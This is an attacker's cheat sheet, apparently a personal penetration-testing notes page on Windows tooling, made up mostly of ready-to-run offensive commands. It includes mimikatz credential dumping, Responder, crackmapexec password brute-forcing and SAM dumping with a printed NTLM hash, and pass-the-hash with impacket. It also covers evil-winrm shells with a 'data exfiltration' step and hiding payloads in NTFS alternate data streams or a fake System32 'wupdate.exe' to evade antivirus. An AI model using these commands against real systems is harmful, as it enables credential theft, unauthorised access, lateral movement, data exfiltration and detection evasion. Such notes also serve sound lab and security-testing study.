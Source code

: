 # Tools / ORDENAR ESTO


## Tips

### Use ExecutionPolicy Bypass: Allows the script to run even if the PowerShell execution policy is restrictive.

`powershell.exe -ExecutionPolicy Bypass -File C:\Temp\your_script.ps1`










On Windows 11, Network Level Authentication (NLA) is enabled by default for RDP connections.
If the machine is not a domain-joined machine, `rdesktop` won't connect to it.
We can use `xfreerdp` instead, which supports NLA for non domain-joined machines.

- <https://en.wikipedia.org/wiki/Network_Level_Authentication>














## mimikatz
Mimikatz is a hacking tool that extracts Windows authentication credentials from memory, including passwords and hashes. It can then use these credentials to gain unauthorized access, escalate privileges, and perform further attacks.


Commands
```
privilege::debug

sekurlsa::logonpasswords

lsadump::sam


```











## Responder
`sudo responder -I tun0`























## WinRM

Windows Remote Management (WinRM) is a Windows remote management protocol that can be used to facilitate remote access with Windows systems over HTTP(S).

Microsoft implemented WinRM in to Windows in order to make life easier for system administrators.

WinRM is typically used in the following ways:
- Remotely access and interact with Windows hosts on a local network.
- Remotely access and execute commands on Windows systems.
- Manage and configure Windows systems remotely.
- WinRM typically uses TCP port 5985 and 5986 (HTTPS).

WinRM implements access control and security for communication between systems through various forms of authentication.

We can utilize a utility called `crackmapexec` to perform a brute-force on WinRM in order to identify users and their passwords as well as execute commands on the target system.



### crackmapexec

```
crackmapexec winrm [IP] -u [USERS FILE] -p [PASSWORD FILE]
crackmapexec winrm [IP] -u administrator -p [PASSWORD FILE]

crackmapexec winrm [IP] -u administrator -p tinkerbell -x "whoami"
crackmapexec winrm [IP] -u administrator -p tinkerbell -x "systeminfo"


```



`crackmapexec smb [TARGET] -u maya -p "m4y4ngs4ri" --sam`
...
MB         10.10.11.14     445    MAILING          localadmin:1001:aad3b435b51404eeaad3b435b51404ee:9aa582783780d1546d62f2d102daefae:::
...







We can also utilize a ruby script called `evil-winrm` to obtain a command shell session on the target system.



### Evil-Winrm
```
evil-winrm -i [TARGET IP] -u [USERNAME] -p [PASSWORD]
evil-winrm -i 10.129.136.91 -u administrator -p badminton


> menu



# Upload and download files
evil-winrm -i <IP_ADDRESS> -u <USERNAME> -p <PASSWORD> -s "source" -d "dest"
evil-winrm -i <IP_ADDRESS> -u <USERNAME> -p <PASSWORD> -g "source" -d "dest"


# Script execution
evil-winrm -i <IP_ADDRESS> -u <USERNAME> -p <PASSWORD> -s "powershell_script.ps1"



# Lateral movement
evil-winrm -i <IP_ADDRESS> -u <USERNAME> -p <PASSWORD> -smb <TARGET_IP> -h <HASH>


# Data exfiltration
Compress-Archive -Path "data_directory" -DestinationPath "exfiltrated_data.zip"

evil-winrm -i <IP_ADDRESS> -u <USERNAME> -p <PASSWORD> -g "exfiltrated_data.zip" -d "dest"



```




### MSF

exploit/windows/winrm/winrm_script_exec
	set FORCE_VBS true



































## xfreerdp
```
xfreerdp /v:[TARGET IP] /u:[USERNAME] /p:[PASSWORD]
xfreerdp /v:[TARGET IP] /u:[USERNAME] /p:[PASSWORD] /size:75%h

```























## impacket
- <https://github.com/fortra/impacket>

```
impacket-wmiexec localadmin@10.10.11.14 -hashes "aad3b435b51404eeaad3b435b51404ee:9aa582783780d1546d62f2d102daefae"




impacket-mssqlclient ARCHETYPE/sql_svc@${ip} -windows-auth
python3 mssqlclient.py ARCHETYPE/sql_svc@{TARGET_IP} -windows-auth

impacket-psexec administrator@${ip}
python3 psexec.py administrator@{TARGET_IP}
# PsExec is a light-weight telnet-replacement that lets you execute processes on other systems
# https://learn.microsoft.com/en-us/sysinternals/downloads/psexec




```













## nc
https://github.com/int0x33/nc.exe/blob/master/nc64.exe
















## winPEAS
winPEASx64.exe
- <https://book.hacktricks.xyz/windows/checklist-windows-privilege-escalation>

































###########################################


## Alternate Data Streams (ADS)

Alternate Data Streams (ADS) is an NTFS (New Technology File System) file attribute and was designed to provide compatibility with the MacOS HFS (Hierarchical File System).

Any file created on an NTFS formatted drive will have two different forks/streams:
- Data stream - Default stream that contains the data of the file.
- Resource stream - Typically contains the metadata of the file.

Attackers can use ADS to hide malicious code or executables in legitimate files in order to evade detection.

This can be done by storing the malicious code or executables in the file attribute resource stream (metadata) of a legitimate file.

This technique is usually used to evade basic signature based AVs and static scanning tools.

# Example of hidden file!
```
notepad newFile.txt:hiddenFile.txt
```



# Hide WinPEAS
```

# send the payload to a file with a legitimate name (windowslog.txt)
type WinPEAS.exe > windowslog.txt:winpeas.exe

#if you have the privileges just run the file
start windowslog.txt:winpeas.exe

# another option is create symbolic link in C:\Windows\System32
C:\Windows\System32> mklink wupdate.exe [PATH TO PAYLOAD FILE]
C:\Windows\System32> wupdate


```